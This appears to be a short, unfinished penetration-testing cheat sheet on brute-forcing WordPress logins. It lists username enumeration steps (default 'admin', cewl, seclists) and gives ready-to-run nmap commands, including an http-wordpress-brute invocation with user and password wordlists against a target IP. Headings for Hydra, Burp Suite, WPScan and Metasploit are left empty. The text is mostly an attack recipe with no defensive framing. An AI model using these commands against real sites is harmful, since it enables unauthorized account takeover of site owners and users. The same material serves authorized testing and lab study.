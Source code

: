 # Wordpress Brute Forcing

## Step 1 : First step is to enumerate users

* Default username "admin".
* If not then use an intelligent userlist using "cewl" or common usernames using seclists. To enumerate valid usernames.
* Verify the enumerate usernames

## Step 2 : Perform the online password cracking

### Nmap : Wordpress login brute force

* The nmap automatically discovers the exact login page using `nmap -p80 --script http-enum 192.168.1.17`

`nmap –sV --script http-wordpress-brute --script-args 'userdb=/root/Desktop/login.txt,passdb=/root/Desktop/pass.txt, http-wordpress-brute.hostname=domain.com,http-wordpress-brute.thread=3,brute.firstonly=true' 192.168.1.17`

### Hydra : Wordpress login brute force

### Brup Suite : Wordpress login Brute force

### WPScan : Wordpress login Brute force

### Metasploit : Wordpress loign Brute force







